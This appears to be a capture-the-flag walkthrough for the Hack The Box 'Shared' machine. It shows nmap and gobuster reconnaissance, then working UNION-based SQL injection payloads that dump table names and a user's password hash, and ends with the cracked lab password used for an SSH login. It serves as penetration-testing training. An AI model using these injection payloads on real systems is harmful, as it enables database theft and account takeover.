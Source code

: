 ```console
└──╼ [★]$ nmap -A -p- -T4 -Pn 10.129.56.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 22:04 BST
Nmap scan report for 10.129.56.68
Host is up (0.0038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to http://shared.htb
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://shared.htb
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 305.76 seconds
```

```console
└──╼ [★]$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u shared.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shared.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/16 22:38:25 Starting gobuster in VHOST enumeration mode
===============================================================
Found: checkout.shared.htb (Status: 200) [Size: 3229]
```

https://www.noobsec.net/sqli-cheatsheet/

```{"-1' union select 'a','b','c'-- -":"1"}```


![image](https://user-images.githubusercontent.com/105310322/191117377-68dcc174-e7a8-45fe-8d34-27a4c6588a7a.png)

```{"-1' union select 'a',@@version,'c'-- -":"1"}```

![image](https://user-images.githubusercontent.com/105310322/191123194-bc0ac72e-e5b6-4c7c-9529-d701b72af3ed.png)

```{"-1' union select 'a',(select group_concat(table_name) FROM information_schema.tables),'c'-- -":"1"}```

```ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_LOCK_WAITS,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_FT_CONFIG,USER_STATISTICS,INNODB_SYS_TABLESPACES,INNODB_SYS_VIRTUAL,INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,INNODB_MUTEXES,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_FT_DELETED,THREAD_POOL_STATS,user,product```


```{"-1' union select 'a',(select group_concat(column_name) FROM information_schema.columns),'c'-- -":"1"}```

Alot of info is outputted but at the bottom shows these.

```id,username,password,id,code,price```

```{"-1' union select 'a',(select group_concat(username,password) FROM user),'c'-- -":"1"}```

```james_masonfc895d4eddc2fc12f995e18c865cf273```

Now we have a username and if we use hash crack we get a password Soleil101

User= james_mason

fc895d4eddc2fc12f995e18c865cf273 = Soleil101

```console
└──╼ [★]$ ssh james_mason@shared.htb
james_mason@shared.htb's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 16 18:43:35 2022 from 10.10.14.6
```
